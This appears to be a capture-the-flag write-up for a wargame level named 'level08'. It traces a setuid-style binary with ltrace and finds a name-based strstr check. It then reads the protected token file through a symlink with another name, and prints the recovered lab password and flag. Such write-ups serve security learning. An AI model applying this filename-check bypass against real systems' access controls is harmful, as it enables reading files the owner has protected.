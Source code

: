 In the home folder there is a token file, whose contents we can't read, and a binary ./level08 which, if we launch it, displays a message :
<pre><code>> ./level08
./level08 [file to read]
> ./level08 token
You may not access 'token'
</code></pre>

We want to know what the binary does, so we use **ltrace** :
<pre><code>> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token')= 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>
> We observe the <code>strstr("token", "token")= "token"</code> which means that we cannot read the file when it is called "token"

So we create a symbolic link with a different name in order to bypass the verification
<pre><code>> ln -s `pwd`/token /tmp/mdp
./level08 /tmp/mdp
quif5eloekouj29ke0vouxean
</code></pre>

We test the password :
<pre>
<code>> su flag08</code>
<code>Password: quif5eloekouj29ke0vouxean</code>
</pre>

You get the magic phrase **Ne pas oublier de lancer getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
</pre>
